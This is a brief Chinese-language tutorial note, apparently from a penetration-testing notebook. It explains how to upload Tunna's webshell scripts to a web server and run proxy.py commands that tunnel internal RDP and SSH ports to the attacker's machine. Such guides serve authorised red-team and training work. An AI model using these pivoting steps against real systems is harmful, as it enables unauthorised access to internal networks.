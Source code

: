```yaml
---
title: "Tunna"
id: zhfly3454
---
```


## Tunna 实现内网穿透

### Github地址

```
https://github.com/SECFORCE/Tunna 
```

### 注：Tunna是python2环境

下载到本地之后在webshells目录里有三种格式的脚本如下图

![image](../img/19be6ff71c898729de1e6eaa4d216e8d.png)

将对应格式的脚本文件传到网站目录中

然后本地执行

```
python proxy.py -u http://192.168.0.1/conn.php -l 6666 -r 3389 -v 
```

如上命令是将内网主机的3389端口转发到本地的6666端口上

本地直接用mstsc链接127.0.0.1：6666即可

```
python proxy.py -u http://192.168.0.1/conn.php -l 6666 -a 172.0.0.2 -r 3389 
```

如上命令是将内网其他主机的3389端口转发到本地的6666端口上

```
python proxy.py -u http://172.0.0.1/conn.php -l 1234 -r 22 -v -s 
```

## 如上命令，加上-s参数是为了避免连接ssh中断

还有MSF利用tunna转发的方式，这里不做介绍了